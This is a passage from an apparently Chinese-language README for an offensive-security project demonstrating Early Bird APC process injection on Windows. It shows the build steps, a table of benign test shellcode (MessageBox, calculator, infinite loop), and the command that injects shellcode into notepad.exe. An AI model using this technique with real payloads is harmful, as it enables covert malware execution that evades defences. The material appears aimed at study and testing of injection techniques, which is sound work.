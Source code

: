### 1. 编译项目

```bash
cd techniques/06-early-bird-apc
./build.bat
```

**编译输出：**
```
[1/4] 编译 shellcode 生成器...
    √ Shellcode 生成器编译成功

[2/4] 生成测试 shellcode...
✓ Shellcode 已生成：build\x64\payload.bin
  大小：317 字节
    √ Shellcode 生成成功

[3/4] 编译 Early Bird APC 主程序...
    √ 主程序编译成功

[4/4] 编译测试载荷（可选）...
    √ 测试载荷编译成功
```

### 2. 准备测试 Shellcode

测试中使用了多种 shellcode 进行验证：

#### Shellcode 列表

| 文件名 | 大小 | 功能 | 测试结果 |
|--------|------|------|----------|
| `payload.bin` | 317 bytes | MessageBox shellcode | - |
| `calc_payload.bin` | 135 bytes | 启动计算器 | - |
| `loop_payload.bin` | 13 bytes | 无限循环 | ✅ **验证成功** |
| `msgbox_payload.bin` | 290 bytes | MessageBox "APC Success!" | - |

#### 生成无限循环 Shellcode（推荐用于测试）

```bash
cd build/x64
gcc -o loop_shellcode.exe ../../src/loop_shellcode.c -O2 -s
./loop_shellcode.exe loop_payload.bin
```

### 3. 执行注入测试

```bash
cd build/x64

# 使用无限循环 shellcode 测试（推荐）
./early_bird_apc.exe notepad.exe loop_payload.bin
```
